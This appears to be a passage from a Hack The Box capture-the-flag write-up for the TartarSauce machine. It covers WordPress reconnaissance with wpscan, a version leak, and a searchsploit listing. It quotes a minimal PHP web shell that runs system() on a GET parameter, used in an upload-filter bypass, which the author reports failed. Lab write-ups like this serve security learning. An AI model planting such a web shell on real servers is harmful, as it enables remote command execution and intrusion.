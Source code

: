 ```c
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

<?php 
	$cmd=$_GET['cmd'];
	system($cmd); 
?>
```

I tried exploiting this vulnerability for too long, didn't work. Not a single file was uploading.

## Wordpress
Running `wpscan`:
```bash
$ wpscan --url http://tartarsauce.htb/webservices/ -e --random-user-agent
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.11
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]
Scan Aborted: The target is responding with a 403, this might be due to a WAF. Well... --random-user-agent didn't work, you're on your own now!
```

Visiting `/webservices/wp/wp-links-opml.php` which I got from `feroxbuster` shows the wordpress version:
```xml
<opml version="1.0">
<head>
<title>Links for Test blog</title>
<dateCreated>Fri, 06 Aug 2021 17:07:30 GMT</dateCreated>
<!-- generator="WordPress/4.9.4" -->
</head>
<body> </body>
</opml>
```

There are some vulnerabilities but those doesn't seem to good at the moment:
```bash
$ searchsploit WordPress 4.9.4
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
WordPress Core < 4.9.6 - (Authenticated) Arbitrary File Deletion     | php/webapps/44949.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Po | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service              | php/dos/47800.py
WordPress Plugin Database Backup < 5.2 - Remote Code Execution (Meta | php/remote/47187.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities  | php/webapps/39553.txt
WordPress Plugin EZ SQL Reports < 4.11.37 - Multiple Vulnerabilities | php/webapps/38176.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection            | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection          | php/webapps/48918.sh
WordPress Plugin User Role Editor < 4.25 - Privilege Escalation      | php/webapps/44595.rb
```